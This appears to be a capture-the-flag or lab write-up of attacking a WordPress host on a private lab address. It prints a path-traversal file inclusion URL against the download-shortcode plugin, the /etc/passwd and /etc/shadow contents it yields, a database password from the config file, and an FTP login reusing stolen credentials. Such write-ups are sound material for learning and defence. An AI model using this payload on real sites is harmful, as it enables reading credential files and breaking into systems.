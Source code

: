 Port 80 exposes a Wordpress instance. [WPScan]() reveals some plugins, including:

```
[+] download-shortcode
 | Location: http://172.30.0.2/wp-content/plugins/download-shortcode/
 | Latest Version: 1.1 (up to date)
 | Last Updated: 2015-04-21T22:18:00.000Z
```

This plugin is vulnerable to [exploit-db.com/exploits/344360](https://www.exploit-db.com/exploits/344360) - local file inclusion:

```
http://172.30.0.2/wp-content/force-download.php?file=../../../../../../../../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
bigsbee:x:1000:1000::/home/bigsbee:/bin/bash
mysql:x:999:998:MySQL server:/var/lib/mysql:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
```

We can also read `/etc/shadow`:

```
root:$6$5tBVYnpH$ChxoBEz7EDs1WXgg0o4w7OeuvLqqQ2/y2vuwVJejgYZcKSYMJKho1/FVjd6bfpjh3jzUMwvl3LVW2yWTCb4k70:18342:0:99999:7:::
bigsbee:$6$WDoRe/.zHOv/gQc$u69q8txq.J3D6hM7.381itc50zFi1XAiBORuKre2/V6vQ9veuP9RdzAO.nVj3xIH.runqMYE2eA0bOEYPx1.U1:18342:0:99999:7:::
mysql:$6$0rSReEeLL$eJFfn7ibz94pn7qKayR9aLNE4NtRF7EhCm8u1VcFnBZZhmGZPSPYzGrsKdaE.D5l3ucYAyn9OfPt6vI7iUzUi/:18342::::::
apache:!!:18342::::::
```

And `wp-settings.php` while we're at it:

```php7
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'G53DF76gd21$');
```

## vsftpd

We can try the credentials we obtained from the Password Manager SQLi on the FTP server:

```bash
lftp bigsbee@172.30.0.2
```
